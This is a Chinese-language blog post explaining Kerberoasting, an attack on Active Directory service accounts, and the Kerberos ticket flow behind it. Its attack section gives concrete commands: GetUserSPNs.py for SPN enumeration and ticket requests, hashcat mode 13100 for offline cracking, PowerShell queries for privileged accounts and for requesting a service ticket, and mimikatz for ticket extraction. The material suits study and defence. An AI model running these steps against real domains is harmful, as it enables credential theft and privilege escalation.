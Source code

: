 ```yaml
---
layout: post
title: kerberoasting攻击
category: 学习
tags: [activedirectory,security,syslog,microsoft]

---
```


# kerberoasting攻击

原文地址为：
[Detecting Kerberoasting Activity](https://adsecurity.org/?p=3458&ref=qomplx.com)


## 简要说明

当我们通过破解或者社工有了一个活动目录域内的正常用户的时候，我们就可以尝试这样的攻击。举个例子，在test.com域内有一个我们已经知晓的账户名为user1，密码为12345的账户。我们就可以尝试setspn的命令获取域内的服务账户的信息。

假设我们获得了服务账户为service1，spn是mssqlsvc/test.com:1433，我们就可以使用下面的方式进行尝试获取TGS，然后进行线下破解。

破解出来的密码，就是service1的密码。

下面就可以用service1这个账户进行后续的操作。

kali中已经包含了对应的攻击脚本：

1. 获取当前域中的SPN信息
```shell
 GetUserSPNs.py test.com/user1:123456
 ```
2. 请求TGS
```shell
GetUserSPNs.py test.com/user1:123456 -request
```
3. 将输出的TGS加密信息存入info.txt文件
4. 利用hashcat 获取其中TGS-REP的信息。
```shell
hashcat -h ｜grep 'Kerberos'
```
5. 假设获取到的TGS-REP的其实位置是13100.
```shell
 hashcat -m 13100 info.txt words.txt 
 ```
 6. 等待破解，破解成功后会显示信息。
---


kerberoasting用来对活动目录中的服务账户进行攻击。

一般来说在不那么严谨的环境下，服务账户的密码几乎不进行修改，而且长度也和普通用户的密码长度大致一样，而且服务账户一般会永久或者长期持有，如果服务账户被攻破了，那么就相当于在活动目录域内有了个可以自由移动的特权账户。

## kerberos验证过程


![d273a506688ac9e3a6763f4506b6f35b.png](/images/tupian/KerberosComms.png)


上面是账户在活动目录域内的验证过程。

1. 用户的密码转化为NTLM 哈希，然后将当前的时间戳加密，将这个哈希和加密的时间戳发送给KDC用于获取TGT
2. KDC检查用户的信息，包括登录限制，组成员信息等，然后创建一个TGT（ticket-granting ticket）
3. 这个TGT是加密并进行了签名，然后发回给用户。在整个域中，只有kerveros service（krgtgt）才能打开和读取这个TGT的数据
4. 当用户需要请求一个TGS（ticket granting service）ticket的时候，他需要将这个TGT给DC进行检查。DC打开TGT并且验证其中的PAC校验和是否正确，如果可以打开，并且校验和正确，那么DC就认为这个TGT是正确无误的。然后将TGT内的数据信息拷贝到TGS ticket里面
5. TGS通过目标机器的服务账户的NTLM 密码哈希进行加密，然后发回给用户
6. 用户连接到要访问的目标机器的对应的端口后，向目标机器展示TGS的信息，目标机器的服务利用其自身的NTLM密码的哈希打开TGS ticket
7. 服务接收所有TGS ticket的数据，不需要和DC再进行通讯

## 攻击步骤

-  对域内的服务账户进行扫描
	- 在活动目录中，任何已经验证的用户都可以查询SPN
	- 攻击者往往对于有特权服务账户非常感兴趣，如果一个账户属性里面包含“AdminCount=1”，那就是了
	- 查询命令
```powershell
get-aduser -filter {AdminCount -eq 1} -prop * | select name,created,passwordlastset,lastlogondate

Get-NetUser -AdminCount | Select name,whencreated,pwdlastset,lastlogon
```

通过上面获取到的信息，就可以确定服务账户了。

还有就是可以参考下面的信息来确认服务账户的类型：

1. AGPMServer： 对GPO有完全管理权限
2. MSSQL/MSSQLSvc：对MS SQL server有管理权限
3. FIMService：对多个活动目录森林有管理权限
4. STS：是VMware SSO服务

- 开始攻击

目的是获取一个针对目标服务账户的SPN的TGS即可。

需要做的是，用一个当前正常可用的域用户的TGT来请求目标服务器上面的目标服务的服务票据。

域控制器查询活动目录内的SPN，然后用服务账户的NTLM密码的哈希来加密这个服务票据，加密的方式是RC4_HMAC_MD5。

1. 获取TGS
```powershell
$SPNName='MSSQLSvc/adsmsDB01.adsecurity.org:1433'
Add-Type -AssemblyNAme System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $SPNName
```

![d273a506688ac9e3a6763f4506b6f35b.png](/images/tupian/K-01.jpg)

2. 使用mimikatz从内存中获取票据

![7f5cbe44ac63c0e66f0ef4ace8a4d0f8.png](/images/tupian/K-02.jpg)

3. 暴力破解

使用john the ripper或者hash cat 或者kali里面的tgsrepcrack进行破解获取明文密码

![d9e8c3a0ed54e93cbfb062e6f046c766.png](/images/tupian/K-03.jpg)

